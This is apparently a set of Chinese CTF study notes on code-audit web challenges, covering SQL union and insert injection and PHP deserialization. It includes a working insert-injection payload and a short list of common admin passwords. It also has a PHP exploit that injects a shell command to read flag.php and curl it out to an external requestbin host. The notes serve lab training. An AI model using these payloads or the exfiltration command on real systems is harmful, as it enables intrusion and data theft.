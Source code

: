 # 代码审计

## web 301(sql注入-查询密码等于输入的密码)

:::info

- 这种看到返回的密码和查询结果一样的就`union `联合查询
- 但我还是记不住
  :::
  ![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1677571708456-332ebefa-72fa-46f4-86df-792db96a4c47.png#averageHue=%2321201f&clientId=u822a639e-c9b1-4&from=paste&height=567&id=ub92dd009&originHeight=1133&originWidth=1827&originalType=binary&ratio=2&rotation=0&showTitle=false&size=208834&status=done&style=none&taskId=uff778198-8c81-45dc-ab82-adc26db75d7&title=&width=913.5)

## web 303(insert 注入)

:::info

- 有过滤立刻换位置，不要在一个地方等死
  :::
  ![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1677573001759-6b6c4f48-9895-4018-a812-66919c3a3d34.png#averageHue=%23211f1f&clientId=u822a639e-c9b1-4&from=paste&height=646&id=u1ef88124&originHeight=1292&originWidth=1829&originalType=binary&ratio=2&rotation=0&showTitle=false&size=230007&status=done&style=none&taskId=uc6085280-68a5-40c3-aff1-f0f692429e1&title=&width=914.5)

- 这里发现不能用`union`联合查询了，那就换
- 在`dptadd.php`中发现注入点

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1677573079464-39cb6b66-8622-4850-b9d7-be706fb4f443.png#averageHue=%23252220&clientId=u822a639e-c9b1-4&from=paste&height=385&id=u1f7fde5a&originHeight=770&originWidth=1895&originalType=binary&ratio=2&rotation=0&showTitle=false&size=239033&status=done&style=none&taskId=u0255f536-5b4b-44a9-8380-cae2ed23b54&title=&width=947.5)

- 先万能密码登录后台，接着访问这个界面，爆破信息

```sql
dpt_name=1',sds_address=(select group_concat(flag) from sds_fl9g)#
```

## web 307(多看反序列化的其他函数)

:::info
常用管理员密码<br />admin1<br />admin<br />admin123456
:::
![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1677594079618-87529ac6-4cfa-4767-958d-cf54ff545a79.png#averageHue=%23211f1f&clientId=u6ddaf6b9-41a7-4&from=paste&height=350&id=u5588089d&originHeight=699&originWidth=1408&originalType=binary&ratio=2&rotation=0&showTitle=false&size=124781&status=done&style=none&taskId=u6974dd7b-cccb-4485-a752-7ff5b55be02&title=&width=704)

- 发现这里的代码调用`clearCache`
- 发现这里有`shell_exec`

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1677594126057-81cfbdc2-d4ea-4a9b-8479-2042e4994f89.png#averageHue=%231f1e1e&clientId=u6ddaf6b9-41a7-4&from=paste&height=91&id=u4a9a19cb&originHeight=182&originWidth=1264&originalType=binary&ratio=2&rotation=0&showTitle=false&size=25065&status=done&style=none&taskId=ua8eb15be-e006-4203-bf10-15580d6d370&title=&width=632)

- `requestbin`带出

```php
<?php

class dao{
	private $config;
	public function __construct(){
		$this->config=new config();

	}

}
class config{

	public $cache_dir = ';curl -X POST -d "flag=`cat /var/www/html/flag.php`" http://requestbin.cn:80/1mrfw6x1';
	
}
$a = new dao;
echo (base64_encode(serialize($a)));
```